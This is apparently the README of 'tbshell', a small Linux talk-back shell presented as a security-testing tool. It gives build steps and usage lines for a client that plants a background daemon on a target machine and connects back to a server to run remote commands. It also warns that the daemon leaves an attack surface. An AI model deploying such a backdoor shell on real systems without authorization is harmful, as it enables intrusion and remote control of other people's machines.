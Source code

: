 # STATUARY WARNING:
This application creates a background daemon in the system for testing purposes. The daemon is then interacted with by a remote machine to exploit the system. After testing, the daemon must be killed. However, it leaves behind an attack surface that can be exploited.


# TBShell
'tbshell' is a basic talk back shell, purpose of this is to test a Linux based system for it's robust security.


# How To Build?
'make' and 'make clean' can be used, to build and clean the apps.
After successfull compilation, it creates two applications 'tbsh_client' and 'tbshell'.

# How To Use?
tbsh_client runs on targeted(test) machine, which starts a background daemon, It prints process id of the daemon. A server machine interacts with the daemon and can issue commands remotely.
To start 'tbsh_client' run following command on the test machine:
> $>tbsh_client <server_ip> <port_no>

Note down the process id of the daemon from the console message

To start serverside tbshell run following command on server:
> $>tbshell <server_ip> <port_no> 

It will connect to the tbsh_client daemon and will give you a shell.
You can run any one shot command from the shell, which will run on the test machine and will give you the output.
Continuous execution commands e.g. 'top', 'ping', 'vim' etc. are prohibited.
 After testing kill the process from test machine.
